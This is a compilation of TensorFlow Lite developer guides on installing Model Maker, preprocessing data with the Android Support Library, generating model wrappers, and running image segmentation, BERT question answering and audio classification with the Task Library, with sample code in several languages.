## Installation

There are two ways to install Model Maker.

*   Install a prebuilt pip package.

```shell
pip install tflite-model-maker
```

If you want to install nightly version, please follow the command:

```shell
pip install tflite-model-maker-nightly
```

*   Clone the source code from GitHub and install.

```shell
git clone https://github.com/tensorflow/examples
cd examples/tensorflow_examples/lite/model_maker/pip_package
pip install -e .
```

TensorFlow Lite Model Maker depends on TensorFlow
[pip package](https://www.tensorflow.org/install/pip). For GPU drivers, please
refer to TensorFlow's [GPU guide](https://www.tensorflow.org/install/gpu) or
[installation guide](https://www.tensorflow.org/install).

## Python API Reference

You can find out Model Maker's public APIs in
[API reference](https://www.tensorflow.org/lite/api_docs/python/tflite_model_maker).
# Process input and output data with the TensorFlow Lite Support Library

Note: TensorFlow Lite Support Library currently only supports Android.

Mobile application developers typically interact with typed objects such as
bitmaps or primitives such as integers. However, the TensorFlow Lite interpreter
API that runs the on-device machine learning model uses tensors in the form of
ByteBuffer, which can be difficult to debug and manipulate. The
[TensorFlow Lite Android Support Library](https://github.com/tensorflow/tflite-support/tree/master/tensorflow_lite_support/java)
is designed to help process the input and output of TensorFlow Lite models, and
make the TensorFlow Lite interpreter easier to use.

## Getting Started

### Import Gradle dependency and other settings

Copy the `.tflite` model file to the assets directory of the Android module
where the model will be run. Specify that the file should not be compressed, and
add the TensorFlow Lite library to the module’s `build.gradle` file:

```java
android {
    // Other settings

    // Specify tflite file should not be compressed for the app apk
    aaptOptions {
        noCompress "tflite"
    }

}

dependencies {
    // Other dependencies

    // Import tflite dependencies
    implementation 'org.tensorflow:tensorflow-lite:0.0.0-nightly-SNAPSHOT'
    // The GPU delegate library is optional. Depend on it as needed.
    implementation 'org.tensorflow:tensorflow-lite-gpu:0.0.0-nightly-SNAPSHOT'
    implementation 'org.tensorflow:tensorflow-lite-support:0.0.0-nightly-SNAPSHOT'
}
```

Note: starting from version 4.1 of the Android Gradle plugin, .tflite will be
added to the noCompress list by default and the aaptOptions above is not needed
anymore.

Explore the
[TensorFlow Lite Support Library AAR hosted at MavenCentral](https://search.maven.org/artifact/org.tensorflow/tensorflow-lite-support)
for different versions of the Support Library.

### Basic image manipulation and conversion

The TensorFlow Lite Support Library has a suite of basic image manipulation
methods such as crop and resize. To use it, create an `ImagePreprocessor` and
add the required operations. To convert the image into the tensor format
required by the TensorFlow Lite interpreter, create a `TensorImage` to be used
as input:

```java
import org.tensorflow.lite.DataType;
import org.tensorflow.lite.support.image.ImageProcessor;
import org.tensorflow.lite.support.image.TensorImage;
import org.tensorflow.lite.support.image.ops.ResizeOp;

// Initialization code
// Create an ImageProcessor with all ops required. For more ops, please
// refer to the ImageProcessor Architecture section in this README.
ImageProcessor imageProcessor =
    new ImageProcessor.Builder()
        .add(new ResizeOp(224, 224, ResizeOp.ResizeMethod.BILINEAR))
        .build();

// Create a TensorImage object. This creates the tensor of the corresponding
// tensor type (uint8 in this case) that the TensorFlow Lite interpreter needs.
TensorImage tensorImage = new TensorImage(DataType.UINT8);

// Analysis code for every frame
// Preprocess the image
tensorImage.load(bitmap);
tensorImage = imageProcessor.process(tensorImage);
```

`DataType` of a tensor can be read through the
[metadata exractor library](../convert/metadata.md#read-the-metadata-from-models)
as well as other model information.

### Basic audio data processing

The TensorFlow Lite Support Library also defines a `TensorAudio` class wrapping
some basic audio data processing methods. It's mostly used together with
[AudioRecord](https://developer.android.com/reference/android/media/AudioRecord)
and captures audio samples in a ring buffer.

```java
import android.media.AudioRecord;
import org.tensorflow.lite.support.audio.TensorAudio;

// Create an `AudioRecord` instance.
AudioRecord record = AudioRecord(...)

// Create a `TensorAudio` object from Android AudioFormat.
TensorAudio tensorAudio = new TensorAudio(record.getFormat(), size)

// Load all audio samples available in the AudioRecord without blocking.
tensorAudio.load(record)

// Get the `TensorBuffer` for inference.
TensorBuffer buffer = tensorAudio.getTensorBuffer()
```

### Create output objects and run the model

Before running the model, we need to create the container objects that will
store the result:

```java
import org.tensorflow.lite.DataType;
import org.tensorflow.lite.support.tensorbuffer.TensorBuffer;

// Create a container for the result and specify that this is a quantized model.
// Hence, the 'DataType' is defined as UINT8 (8-bit unsigned integer)
TensorBuffer probabilityBuffer =
    TensorBuffer.createFixedSize(new int[]{1, 1001}, DataType.UINT8);
```

Loading the model and running inference:

```java
import java.nio.MappedByteBuffer;
import org.tensorflow.lite.InterpreterFactory;
import org.tensorflow.lite.InterpreterApi;

// Initialise the model
try{
    MappedByteBuffer tfliteModel
        = FileUtil.loadMappedFile(activity,
            "mobilenet_v1_1.0_224_quant.tflite");
    InterpreterApi tflite = new InterpreterFactory().create(
        tfliteModel, new InterpreterApi.Options());
} catch (IOException e){
    Log.e("tfliteSupport", "Error reading model", e);
}

// Running inference
if(null != tflite) {
    tflite.run(tImage.getBuffer(), probabilityBuffer.getBuffer());
}
```

### Accessing the result

Developers can access the output directly through
`probabilityBuffer.getFloatArray()`. If the model produces a quantized output,
remember to convert the result. For the MobileNet quantized model, the developer
needs to divide each output value by 255 to obtain the probability ranging from
0 (least likely) to 1 (most likely) for each category.

### Optional: Mapping results to labels

Developers can also optionally map the results to labels. First, copy the text
file containing labels into the module’s assets directory. Next, load the label
file using the following code:

```java
import org.tensorflow.lite.support.common.FileUtil;

final String ASSOCIATED_AXIS_LABELS = "labels.txt";
List<String> associatedAxisLabels = null;

try {
    associatedAxisLabels = FileUtil.loadLabels(this, ASSOCIATED_AXIS_LABELS);
} catch (IOException e) {
    Log.e("tfliteSupport", "Error reading label file", e);
}
```

The following snippet demonstrates how to associate the probabilities with
category labels:

```java
import java.util.Map;
import org.tensorflow.lite.support.common.TensorProcessor;
import org.tensorflow.lite.support.common.ops.NormalizeOp;
import org.tensorflow.lite.support.label.TensorLabel;

// Post-processor which dequantize the result
TensorProcessor probabilityProcessor =
    new TensorProcessor.Builder().add(new NormalizeOp(0, 255)).build();

if (null != associatedAxisLabels) {
    // Map of labels and their corresponding probability
    TensorLabel labels = new TensorLabel(associatedAxisLabels,
        probabilityProcessor.process(probabilityBuffer));

    // Create a map to access the result based on label
    Map<String, Float> floatMap = labels.getMapWithFloatValue();
}
```

## Current use-case coverage

The current version of the TensorFlow Lite Support Library covers:

*   common data types (float, uint8, images, audio and array of these objects)
    as inputs and outputs of tflite models.
*   basic image operations (crop image, resize and rotate).
*   normalization and quantization
*   file utils

Future versions will improve support for text-related applications.

## ImageProcessor Architecture

The design of the `ImageProcessor` allowed the image manipulation operations to
be defined up front and optimised during the build process. The `ImageProcessor`
currently supports three basic preprocessing operations, as described in the
three comments in the code snippet below:

```java
import org.tensorflow.lite.support.common.ops.NormalizeOp;
import org.tensorflow.lite.support.common.ops.QuantizeOp;
import org.tensorflow.lite.support.image.ops.ResizeOp;
import org.tensorflow.lite.support.image.ops.ResizeWithCropOrPadOp;
import org.tensorflow.lite.support.image.ops.Rot90Op;

int width = bitmap.getWidth();
int height = bitmap.getHeight();

int size = height > width ? width : height;

ImageProcessor imageProcessor =
    new ImageProcessor.Builder()
        // Center crop the image to the largest square possible
        .add(new ResizeWithCropOrPadOp(size, size))
        // Resize using Bilinear or Nearest neighbour
        .add(new ResizeOp(224, 224, ResizeOp.ResizeMethod.BILINEAR));
        // Rotation counter-clockwise in 90 degree increments
        .add(new Rot90Op(rotateDegrees / 90))
        .add(new NormalizeOp(127.5, 127.5))
        .add(new QuantizeOp(128.0, 1/128.0))
        .build();
```

See more details
[here](../convert/metadata.md#normalization-and-quantization-parameters) about
normalization and quantization.

The eventual goal of the support library is to support all
[`tf.image`](https://www.tensorflow.org/api_docs/python/tf/image)
transformations. This means the transformation will be the same as TensorFlow
and the implementation will be independent of the operating system.

Developers are also welcome to create custom processors. It is important in
these cases to be aligned with the training process - i.e. the same
preprocessing should apply to both training and inference to increase
reproducibility.

## Quantization

When initiating input or output objects such as `TensorImage` or `TensorBuffer`
you need to specify their types to be `DataType.UINT8` or `DataType.FLOAT32`.

```java
TensorImage tensorImage = new TensorImage(DataType.UINT8);
TensorBuffer probabilityBuffer =
    TensorBuffer.createFixedSize(new int[]{1, 1001}, DataType.UINT8);
```

The `TensorProcessor` can be used to quantize input tensors or dequantize output
tensors. For example, when processing a quantized output `TensorBuffer`, the
developer can use `DequantizeOp` to dequantize the result to a floating point
probability between 0 and 1:

```java
import org.tensorflow.lite.support.common.TensorProcessor;

// Post-processor which dequantize the result
TensorProcessor probabilityProcessor =
    new TensorProcessor.Builder().add(new DequantizeOp(0, 1/255.0)).build();
TensorBuffer dequantizedBuffer = probabilityProcessor.process(probabilityBuffer);
```

The quantization parameters of a tensor can be read through the
[metadata exractor library](../convert/metadata.md#read-the-metadata-from-models).
# Generate model interfaces using metadata

Using [TensorFlow Lite Metadata](../convert/metadata), developers can generate
wrapper code to enable integration on Android. For most developers, the
graphical interface of [Android Studio ML Model Binding](#mlbinding) is the
easiest to use. If you require more customisation or are using command line
tooling, the [TensorFlow Lite Codegen](#codegen) is also available.

## Use Android Studio ML Model Binding {:#mlbinding}

For TensorFlow Lite models enhanced with [metadata](../convert/metadata.md),
developers can use Android Studio ML Model Binding to automatically configure
settings for the project and generate wrapper classes based on the model
metadata. The wrapper code removes the need to interact directly with
`ByteBuffer`. Instead, developers can interact with the TensorFlow Lite model
with typed objects such as `Bitmap` and `Rect`.

Note: Required [Android Studio 4.1](https://developer.android.com/studio) or
above

### Import a TensorFlow Lite model in Android Studio

1.  Right-click on the module you would like to use the TFLite model or click on
    `File`, then `New` > `Other` > `TensorFlow Lite Model`
    

1.  Select the location of your TFLite file. Note that the tooling will
    configure the module's dependency on your behalf with ML Model binding and
    all dependencies automatically inserted into your Android module's
    `build.gradle` file.

    Optional: Select the second checkbox for importing TensorFlow GPU if you
    want to use GPU acceleration.
    

1.  Click `Finish`.

1.  The following screen will appear after the import is successful. To start
    using the model, select Kotlin or Java, copy and paste the code under the
    `Sample Code` section. You can get back to this screen by double clicking
    the TFLite model under the `ml` directory in Android Studio.
    

### Accelerating model inference {:#acceleration}

ML Model Binding provides a way for developers to accelerate their code through
the use of delegates and the number of threads.

Note: The TensorFlow Lite Interpreter must be created on the same thread as when
is run. Otherwise, TfLiteGpuDelegate Invoke: GpuDelegate must run on the same
thread where it was initialized. may occur.

Step 1. Check the module `build.gradle` file that it contains the following
dependency:

```java
    dependencies {
        ...
        // TFLite GPU delegate 2.3.0 or above is required.
        implementation 'org.tensorflow:tensorflow-lite-gpu:2.3.0'
    }
```

Step 2. Detect if GPU running on the device is compatible with TensorFlow GPU
delegate, if not run the model using multiple CPU threads:

<div>
    <devsite-selector>
    <section>
      <h3>Kotlin</h3>
      <p><pre class="prettyprint lang-kotlin">
    import org.tensorflow.lite.gpu.CompatibilityList
    import org.tensorflow.lite.gpu.GpuDelegate

    val compatList = CompatibilityList()

    val options = if(compatList.isDelegateSupportedOnThisDevice) {
        // if the device has a supported GPU, add the GPU delegate
        Model.Options.Builder().setDevice(Model.Device.GPU).build()
    } else {
        // if the GPU is not supported, run on 4 threads
        Model.Options.Builder().setNumThreads(4).build()
    }

    // Initialize the model as usual feeding in the options object
    val myModel = MyModel.newInstance(context, options)

    // Run inference per sample code
      </pre></p>
    </section>
    <section>
      <h3>Java</h3>
      <p><pre class="prettyprint lang-java">
    import org.tensorflow.lite.support.model.Model
    import org.tensorflow.lite.gpu.CompatibilityList;
    import org.tensorflow.lite.gpu.GpuDelegate;

    // Initialize interpreter with GPU delegate
    Model.Options options;
    CompatibilityList compatList = CompatibilityList();

    if(compatList.isDelegateSupportedOnThisDevice()){
        // if the device has a supported GPU, add the GPU delegate
        options = Model.Options.Builder().setDevice(Model.Device.GPU).build();
    } else {
        // if the GPU is not supported, run on 4 threads
        options = Model.Options.Builder().setNumThreads(4).build();
    }

    MyModel myModel = new MyModel.newInstance(context, options);

    // Run inference per sample code
      </pre></p>
    </section>
    </devsite-selector>
</div>

## Generate model interfaces with TensorFlow Lite code generator {:#codegen}

Note: TensorFlow Lite wrapper code generator currently only supports Android.

For TensorFlow Lite model enhanced with [metadata](../convert/metadata.md),
developers can use the TensorFlow Lite Android wrapper code generator to create
platform specific wrapper code. The wrapper code removes the need to interact
directly with `ByteBuffer`. Instead, developers can interact with the TensorFlow
Lite model with typed objects such as `Bitmap` and `Rect`.

The usefulness of the code generator depend on the completeness of the
TensorFlow Lite model's metadata entry. Refer to the `<Codegen usage>` section
under relevant fields in
[metadata_schema.fbs](https://github.com/tensorflow/tflite-support/blob/master/tensorflow_lite_support/metadata/metadata_schema.fbs),
to see how the codegen tool parses each field.

### Generate wrapper Code

You will need to install the following tooling in your terminal:

```sh
pip install tflite-support
```

Once completed, the code generator can be used using the following syntax:

```sh
tflite_codegen --model=./model_with_metadata/mobilenet_v1_0.75_160_quantized.tflite \
    --package_name=org.tensorflow.lite.classify \
    --model_class_name=MyClassifierModel \
    --destination=./classify_wrapper
```

The resulting code will be located in the destination directory. If you are
using [Google Colab](https://colab.research.google.com/) or other remote
environment, it maybe easier to zip up the result in a zip archive and download
it to your Android Studio project:

```python
# Zip up the generated code
!zip -r classify_wrapper.zip classify_wrapper/

# Download the archive
from google.colab import files
files.download('classify_wrapper.zip')
```

### Using the generated code

#### Step 1: Import the generated code

Unzip the generated code if necessary into a directory structure. The root of
the generated code is assumed to be `SRC_ROOT`.

Open the Android Studio project where you would like to use the TensorFlow lite
model and import the generated module by: And File -> New -> Import Module ->
select `SRC_ROOT`

Using the above example, the directory and the module imported would be called
`classify_wrapper`.

#### Step 2: Update the app's `build.gradle` file

In the app module that will be consuming the generated library module:

Under the android section, add the following:

```build
aaptOptions {
   noCompress "tflite"
}
```

Note: starting from version 4.1 of the Android Gradle plugin, .tflite will be
added to the noCompress list by default and the aaptOptions above is not needed
anymore.

Under the dependencies section, add the following:

```build
implementation project(":classify_wrapper")
```

#### Step 3: Using the model

```java
// 1. Initialize the model
MyClassifierModel myImageClassifier = null;

try {
    myImageClassifier = new MyClassifierModel(this);
} catch (IOException io){
    // Error reading the model
}

if(null != myImageClassifier) {

    // 2. Set the input with a Bitmap called inputBitmap
    MyClassifierModel.Inputs inputs = myImageClassifier.createInputs();
    inputs.loadImage(inputBitmap));

    // 3. Run the model
    MyClassifierModel.Outputs outputs = myImageClassifier.run(inputs);

    // 4. Retrieve the result
    Map<String, Float> labeledProbability = outputs.getProbability();
}
```

### Accelerating model inference

The generated code provides a way for developers to accelerate their code
through the use of [delegates](../performance/delegates.md) and the number of
threads. These can be set when initiatizing the model object as it takes three
parameters:

*   **`Context`**: Context from the Android Activity or Service
*   (Optional) **`Device`**: TFLite acceleration delegate for example
    GPUDelegate or NNAPIDelegate
*   (Optional) **`numThreads`**: Number of threads used to run the model -
    default is one.

For example, to use a NNAPI delegate and up to three threads, you can initialize
the model like this:

```java
try {
    myImageClassifier = new MyClassifierModel(this, Model.Device.NNAPI, 3);
} catch (IOException io){
    // Error reading the model
}
```

### Troubleshooting

If you get a 'java.io.FileNotFoundException: This file can not be opened as a
file descriptor; it is probably compressed' error, insert the following lines
under the android section of the app module that will uses the library module:

```build
aaptOptions {
   noCompress "tflite"
}
```

Note: starting from version 4.1 of the Android Gradle plugin, .tflite will be
added to the noCompress list by default and the aaptOptions above is not needed
anymore.
# TensorFlow Lite inference with metadata

Inferencing [models with metadata](../convert/metadata.md) can be as easy as
just a few lines of code. TensorFlow Lite metadata contains a rich description
of what the model does and how to use the model. It can empower code generators
to automatically generate the inference code for you, such as using the
[Android Studio ML Binding feature](codegen.md#mlbinding) or
[TensorFlow Lite Android code generator](codegen.md#codegen). It can also be
used to configure your custom inference pipeline.

## Tools and libraries

TensorFlow Lite provides varieties of tools and libraries to serve different
tiers of deployment requirements as follows:

### Generate model interface with Android code generators

There are two ways to automatically generate the necessary Android wrapper code
for TensorFlow Lite model with metadata:

1.  [Android Studio ML Model Binding](codegen.md#mlbinding) is tooling available
    within Android Studio to import TensorFlow Lite model through a graphical
    interface. Android Studio will automatically configure settings for the
    project and generate wrapper classes based on the model metadata.

2.  [TensorFlow Lite Code Generator](codegen.md#codegen) is an executable that
    generates model interface automatically based on the metadata. It currently
    supports Android with Java. The wrapper code removes the need to interact
    directly with `ByteBuffer`. Instead, developers can interact with the
    TensorFlow Lite model with typed objects such as `Bitmap` and `Rect`.
    Android Studio users can also get access to the codegen feature through
    [Android Studio ML Binding](codegen.md#mlbinding).

### Leverage out-of-box APIs with the TensorFlow Lite Task Library

[TensorFlow Lite Task Library](task_library/overview.md) provides optimized
ready-to-use model interfaces for popular machine learning tasks, such as image
classification, question and answer, etc. The model interfaces are specifically
designed for each task to achieve the best performance and usability. Task
Library works cross-platform and is supported on Java, C++, and Swift.

### Build custom inference pipelines with the TensorFlow Lite Support Library

[TensorFlow Lite Support Library](lite_support.md) is a cross-platform library
that helps to customize model interface and build inference pipelines. It
contains varieties of util methods and data structures to perform pre/post
processing and data conversion. It is also designed to match the behavior of
TensorFlow modules, such as TF.Image and TF.Text, ensuring consistency from
training to inferencing.

## Explore pretrained models with metadata

Browse
[TensorFlow Lite hosted models](https://www.tensorflow.org/lite/guide/hosted_models)
and [TensorFlow Hub](https://tfhub.dev/s?deployment-format=lite) to download
pretrained models with metadata for both vision and text tasks. Also see
different options of
[visualizing the metadata](../convert/metadata.md#visualize-the-metadata).

## TensorFlow Lite Support GitHub repo

Visit the
[TensorFlow Lite Support GitHub repo](https://github.com/tensorflow/tflite-support)
for more examples and source code. Let us know your feedback by creating a
[new GitHub issue](https://github.com/tensorflow/tflite-support/issues/new).
# Integrate image segmenters

Image segmenters predict whether each pixel of an image is associated with a
certain class. This is in contrast to
<a href="../../models/object_detection/overview.md">object detection</a>, which
detects objects in rectangular regions, and
<a href="../../models/image_classification/overview.md">image
classification</a>, which classifies the overall image. See the
[introduction of image segmentation](../../models/segmentation/overview.md) for
more information about image segmenters.

Use the Task Library `ImageSegmenter` API to deploy your custom image segmenters
or pretrained ones into your mobile apps.

## Key features of the ImageSegmenter API

*   Input image processing, including rotation, resizing, and color space
    conversion.

*   Label map locale.

*   Two output types, category mask and confidence masks.

*   Colored label for display purpose.

## Supported image segmenter models

The following models are guaranteed to be compatible with the `ImageSegmenter`
API.

*   The
    [pretrained image segmentation models on TensorFlow Hub](https://tfhub.dev/tensorflow/collections/lite/task-library/image-segmenter/1).

*   Custom models that meet the
    [model compatibility requirements](#model-compatibility-requirements).

## Run inference in Java

See the
[Image Segmentation reference app](https://github.com/tensorflow/examples/tree/master/lite/examples/image_segmentation/android/)
for an example of how to use `ImageSegmenter` in an Android app.

### Step 1: Import Gradle dependency and other settings

Copy the `.tflite` model file to the assets directory of the Android module
where the model will be run. Specify that the file should not be compressed, and
add the TensorFlow Lite library to the module’s `build.gradle` file:

```java
android {
    // Other settings

    // Specify tflite file should not be compressed for the app apk
    aaptOptions {
        noCompress "tflite"
    }

}

dependencies {
    // Other dependencies

    // Import the Task Vision Library dependency (NNAPI is included)
    implementation 'org.tensorflow:tensorflow-lite-task-vision:0.3.0'
    // Import the GPU delegate plugin Library for GPU inference
    implementation 'org.tensorflow:tensorflow-lite-gpu-delegate-plugin:0.3.0'
}
```

Note: starting from version 4.1 of the Android Gradle plugin, .tflite will be
added to the noCompress list by default and the aaptOptions above is not needed
anymore.

### Step 2: Using the model

```java
// Initialization
ImageSegmenterOptions options =
    ImageSegmenterOptions.builder()
        .setBaseOptions(BaseOptions.builder().useGpu().build())
        .setOutputType(OutputType.CONFIDENCE_MASK)
        .build();
ImageSegmenter imageSegmenter =
    ImageSegmenter.createFromFileAndOptions(context, modelFile, options);

// Run inference
List<Segmentation> results = imageSegmenter.segment(image);
```

See the
[source code and javadoc](https://github.com/tensorflow/tflite-support/blob/master/tensorflow_lite_support/java/src/java/org/tensorflow/lite/task/vision/segmenter/ImageSegmenter.java)
for more options to configure `ImageSegmenter`.

## Run inference in C++

```c++
// Initialization
ImageSegmenterOptions options;
options.mutable_base_options()->mutable_model_file()->set_file_name(model_file);
std::unique_ptr<ImageSegmenter> image_segmenter = ImageSegmenter::CreateFromOptions(options).value();

// Run inference
const SegmentationResult result = image_segmenter->Segment(*frame_buffer).value();
```

See the
[source code](https://github.com/tensorflow/tflite-support/blob/master/tensorflow_lite_support/cc/task/vision/image_segmenter.h)
for more options to configure `ImageSegmenter`.

## Example results

Here is an example of the segmentation results of
[deeplab_v3](https://tfhub.dev/tensorflow/lite-model/deeplabv3/1/metadata/1), a
generic segmentation model available on TensorFlow Hub.


```
Color Legend:
 (r: 000, g: 000, b: 000):
  index       : 0
  class name  : background
 (r: 128, g: 000, b: 000):
  index       : 1
  class name  : aeroplane

# (omitting multiple lines for conciseness) ...

 (r: 128, g: 192, b: 000):
  index       : 19
  class name  : train
 (r: 000, g: 064, b: 128):
  index       : 20
  class name  : tv
Tip: use a color picker on the output PNG file to inspect the output mask with
this legend.
```

The segmentation category mask should looks like:


Try out the simple
[CLI demo tool for ImageSegmenter](https://github.com/tensorflow/tflite-support/tree/master/tensorflow_lite_support/examples/task/vision/desktop#image-segmenter)
with your own model and test data.

## Model compatibility requirements

The `ImageSegmenter` API expects a TFLite model with mandatory
[TFLite Model Metadata](../../convert/metadata.md). See examples of creating
metadata for image segmenters using the
[TensorFlow Lite Metadata Writer API](../../convert/metadata_writer_tutorial.ipynb#image_segmenters).

*   Input image tensor (kTfLiteUInt8/kTfLiteFloat32)

    -   image input of size `[batch x height x width x channels]`.
    -   batch inference is not supported (`batch` is required to be 1).
    -   only RGB inputs are supported (`channels` is required to be 3).
    -   if type is kTfLiteFloat32, NormalizationOptions are required to be
        attached to the metadata for input normalization.

*   Output masks tensor: (kTfLiteUInt8/kTfLiteFloat32)

    -   tensor of size `[batch x mask_height x mask_width x num_classes]`, where
        `batch` is required to be 1, `mask_width` and `mask_height` are the
        dimensions of the segmentation masks produced by the model, and
        `num_classes` is the number of classes supported by the model.
    -   optional (but recommended) label map(s) can be attached as
        AssociatedFile-s with type TENSOR_AXIS_LABELS, containing one label per
        line. The first such AssociatedFile (if any) is used to fill the `label`
        field (named as `class_name` in C++) of the results. The `display_name`
        field is filled from the AssociatedFile (if any) whose locale matches
        the `display_names_locale` field of the `ImageSegmenterOptions` used at
        creation time ("en" by default, i.e. English). If none of these are
        available, only the `index` field of the results will be filled.
# Integrate BERT question answerer

The Task Library `BertQuestionAnswerer` API loads a Bert model and answers
questions based on the content of a given passage. For more information, see the
documentation for the Question-Answer model
<a href="../../models/bert_qa/overview.md">here</a>.

## Key features of the BertQuestionAnswerer API

*   Takes two text inputs as question and context and outputs a list of possible
    answers.

*   Performs out-of-graph Wordpiece or Sentencepiece tokenizations on input
    text.

## Supported BertQuestionAnswerer models

The following models are compatible with the `BertNLClassifier` API.

*   Models created by
    [TensorFlow Lite Model Maker for BERT Question Answer](https://www.tensorflow.org/lite/tutorials/model_maker_question_answer).

*   The
    [pretrained BERT models on TensorFlow Hub](https://tfhub.dev/tensorflow/collections/lite/task-library/bert-question-answerer/1).

*   Custom models that meet the
    [model compatibility requirements](#model-compatibility-requirements).

## Run inference in Java

### Step 1: Import Gradle dependency and other settings

Copy the `.tflite` model file to the assets directory of the Android module
where the model will be run. Specify that the file should not be compressed, and
add the TensorFlow Lite library to the module’s `build.gradle` file:

```java
android {
    // Other settings

    // Specify tflite file should not be compressed for the app apk
    aaptOptions {
        noCompress "tflite"
    }

}

dependencies {
    // Other dependencies

    // Import the Task Text Library dependency (NNAPI is included)
    implementation 'org.tensorflow:tensorflow-lite-task-text:0.3.0'
}
```

Note: starting from version 4.1 of the Android Gradle plugin, .tflite will be
added to the noCompress list by default and the aaptOptions above is not needed
anymore.

### Step 2: Run inference using the API

```java
// Initialization
BertQuestionAnswererOptions options =
    BertQuestionAnswererOptions.builder()
        .setBaseOptions(BaseOptions.builder().setNumThreads(4).build())
        .build();
BertQuestionAnswerer answerer =
    BertQuestionAnswerer.createFromFileAndOptions(
        androidContext, modelFile, options);

// Run inference
List<QaAnswer> answers = answerer.answer(contextOfTheQuestion, questionToAsk);
```

See the
[source code](https://github.com/tensorflow/tflite-support/blob/master/tensorflow_lite_support/java/src/java/org/tensorflow/lite/task/text/qa/BertQuestionAnswerer.java)
for more details.

## Run inference in Swift

### Step 1: Import CocoaPods

Add the TensorFlowLiteTaskText pod in Podfile

```
target 'MySwiftAppWithTaskAPI' do
  use_frameworks!
  pod 'TensorFlowLiteTaskText', '~> 0.2.0'
end
```

### Step 2: Run inference using the API

```swift
// Initialization
let mobileBertAnswerer = TFLBertQuestionAnswerer.questionAnswerer(
      modelPath: mobileBertModelPath)

// Run inference
let answers = mobileBertAnswerer.answer(
      context: context, question: question)
```

See the
[source code](https://github.com/tensorflow/tflite-support/blob/master/tensorflow_lite_support/ios/task/text/qa/Sources/TFLBertQuestionAnswerer.h)
for more details.

## Run inference in C++

```c++
// Initialization
BertQuestionAnswererOptions options;
options.mutable_base_options()->mutable_model_file()->set_file_name(model_file);
std::unique_ptr<BertQuestionAnswerer> answerer = BertQuestionAnswerer::CreateFromOptions(options).value();

// Run inference
std::vector<QaAnswer> positive_results = answerer->Answer(context_of_question, question_to_ask);
```

See the
[source code](https://github.com/tensorflow/tflite-support/blob/master/tensorflow_lite_support/cc/task/text/qa/bert_question_answerer.h)
for more details.

## Example results

Here is an example of the answer results of
[ALBERT model](https://tfhub.dev/tensorflow/lite-model/albert_lite_base/squadv1/1).

Context: "The Amazon rainforest, alternatively, the Amazon Jungle, also known in
English as Amazonia, is a moist broadleaf tropical rainforest in the Amazon
biome that covers most of the Amazon basin of South America. This basin
encompasses 7,000,000 km2 (2,700,000 sq mi), of which
5,500,000 km2 (2,100,000 sq mi) are covered by the rainforest. This region
includes territory belonging to nine nations."

Question: "Where is Amazon rainforest?"

Answers:

```
answer[0]:  'South America.'
logit: 1.84847, start_index: 39, end_index: 40
answer[1]:  'most of the Amazon basin of South America.'
logit: 1.2921, start_index: 34, end_index: 40
answer[2]:  'the Amazon basin of South America.'
logit: -0.0959535, start_index: 36, end_index: 40
answer[3]:  'the Amazon biome that covers most of the Amazon basin of South America.'
logit: -0.498558, start_index: 28, end_index: 40
answer[4]:  'Amazon basin of South America.'
logit: -0.774266, start_index: 37, end_index: 40

```

Try out the simple
[CLI demo tool for BertQuestionAnswerer](https://github.com/tensorflow/tflite-support/blob/master/tensorflow_lite_support/examples/task/text/desktop/README.md#bert-question-answerer)
with your own model and test data.

## Model compatibility requirements

The `BertQuestionAnswerer` API expects a TFLite model with mandatory
[TFLite Model Metadata](../../convert/metadata.md).

The Metadata should meet the following requirements:

*   `input_process_units` for Wordpiece/Sentencepiece Tokenizer

*   3 input tensors with names "ids", "mask" and "segment_ids" for the output of
    the tokenizer

*   2 output tensors with names "end_logits" and "start_logits" to indicate the
    answer's relative position in the context
# Integrate audio classifiers

Audio classification is a common use case of Machine Learning to classify the
sound types. For example, it can identify the bird species by their songs.

The Task Library `AudioClassifier` API can be used to deploy your custom audio
classifiers or pretrained ones into your mobile app.

## Key features of the AudioClassifier API

*   Input audio processing, e.g. converting PCM 16 bit encoding to PCM
    Float encoding and the manipulation of the audio ring buffer.

*   Label map locale.

*   Supporting Multi-head classification model.

*   Supporting both single-label and multi-label classification.

*   Score threshold to filter results.

*   Top-k classification results.

*   Label allowlist and denylist.

## Supported audio classifier models

The following models are guaranteed to be compatible with the `AudioClassifier`
API.

*   Models created by
    [TensorFlow Lite Model Maker for Audio Classification](https://www.tensorflow.org/lite/api_docs/python/tflite_model_maker/audio_classifier).

*   The
    [pretrained audio event classification models on TensorFlow Hub](https://tfhub.dev/google/lite-model/yamnet/classification/tflite/1).

*   Custom models that meet the
    [model compatibility requirements](#model-compatibility-requirements).

## Run inference in Java

See the
[Audio Classification reference app](https://github.com/tensorflow/examples/tree/master/lite/examples/sound_classification/android)
for an example using `AudioClassifier` in an Android app.

### Step 1: Import Gradle dependency and other settings

Copy the `.tflite` model file to the assets directory of the Android module
where the model will be run. Specify that the file should not be compressed, and
add the TensorFlow Lite library to the module’s `build.gradle` file:

```java
android {
    // Other settings

    // Specify that the tflite file should not be compressed when building the APK package.
    aaptOptions {
        noCompress "tflite"
    }

}

dependencies {
    // Other dependencies

    // Import the Audio Task Library dependency (NNAPI is included)
    implementation 'org.tensorflow:tensorflow-lite-task-audio:0.3.0'
    // Import the GPU delegate plugin Library for GPU inference
    implementation 'org.tensorflow:tensorflow-lite-gpu-delegate-plugin:0.3.0'
}
```

Note: starting from version 4.1 of the Android Gradle plugin, .tflite will be
added to the noCompress list by default and the above aaptOptions is not needed
anymore.

### Step 2: Using the model

```java
// Initialization
AudioClassifierOptions options =
    AudioClassifierOptions.builder()
        .setBaseOptions(BaseOptions.builder().useGpu().build())
        .setMaxResults(1)
        .build();
AudioClassifier classifier =
    AudioClassifier.createFromFileAndOptions(context, modelFile, options);

// Start recording
AudioRecord record = classifier.createAudioRecord();
record.startRecording();

// Load latest audio samples
TensorAudio audioTensor = classifier.createInputTensorAudio();
audioTensor.load(record);

// Run inference
List<Classifications> results = audioClassifier.classify(audioTensor);
```

See the
[source code and javadoc](https://github.com/tensorflow/tflite-support/blob/master/tensorflow_lite_support/java/src/java/org/tensorflow/lite/task/audio/classifier/AudioClassifier.java)
for more options to configure `AudioClassifier`.

## Run inference in C++

```c++
// Initialization
AudioClassifierOptions options;
options.mutable_base_options()->mutable_model_file()->set_file_name(model_file);
std::unique_ptr<AudioClassifier> audio_classifier = AudioClassifier::CreateFromOptions(options).value();

// Create input audio buffer from data.
int input_buffer_size = audio_classifier->GetRequiredInputBufferSize();
const std::unique_ptr<AudioBuffer> audio_buffer =
    AudioBuffer::Create(audio_data.get(), input_buffer_size, kAudioFormat).value();

// Run inference
const ClassificationResult result = audio_classifier->Classify(*audio_buffer).value();
```

See the
